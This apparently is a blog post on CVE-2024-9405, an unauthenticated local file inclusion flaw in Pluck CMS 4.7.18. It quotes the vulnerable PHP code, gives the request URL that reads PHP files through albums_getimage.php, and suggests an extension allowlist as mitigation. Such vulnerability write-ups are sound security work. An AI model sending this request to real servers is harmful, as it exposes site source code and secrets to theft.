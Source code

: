 ```yaml
---
layout: post
title: "Local File Inclusion CVE 2024-9405"
categories: [Notes, Web Security]
tags: [web-security, cve]
slug: "cve-2024-9405" #url/posts/pageurl
image: /assets/img/blog/notes/web-security/cve20249405/logo.jpg  # Optional - add an image for the post
published: true  # Set to false if you want it unpublished
---
```


# 2024-9405

---

> Local file inclusion (LFI) is a vulnerability in web applications that allows attackers to access and execute files on a web server.
> 

> Pluck CMS is a free, open-source, flat-file content management system (CMS) written in PHP.
> 
- **CVE-ID**: CVE-2024-9405
- **Vulnerability Type**: Local File Inclusion (LFI) (Unauthenticated)
- **Affected Product**: Pluck CMS v4.7.18
- **Affected Component**: `/data/modules/albums/albums_getimage.php=*`
- **Attack Type**: Remote
- **Impact**:
    - Attacker can extract sensitive information from files in the **same directory** or **immediate subdirectories**.
    - **Recursive directories (deeply nested folders) are not affected**.
- **Attack Vectors**: Not specified

---

Review code of the file **`albums_getimage.php`**

```php
if (file_exists('../../settings/modules/albums/".$image)) { 
    header('Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0'); 
    header('Expires: Thu, 19 Nov 1981 08:52:00 GMT'); 
    header('Pragma: no-cache'); 
    header('Content-Type: image/jpeg'); 
    echo readfile('../../settings/modules/albums/'.$image); 
} 
```

It makes an “`*echo readfile*`” without filtering by type of image files, allowing a malicious actor to read the contents of files with server language (PHP).

# Exploitation

```python
url/admin.php?module=albums
```

![image.png](/assets/img/blog/notes/web-security/cve20249405/image.png)

You cannot read content of poc.php directly using below url:

```python
url/data/settings/modules/albums/poc.php
```

![image.png](/assets/img/blog/notes/web-security/cve20249405/image%201.png)

After changing above url to this you can read content of php file:

```python
url/data/modules/albums/albums_getimage.php?image=poc.php
```

![image.png](/assets/img/blog/notes/web-security/cve20249405/image%202.png)

# Mitigation

Implement in the code some function that checks the type of files, using a white list
for allowed image extensions (eg .png | .gif |jpeg…), thus preventing a malicious user
from uploading other files that are not expected by the application.
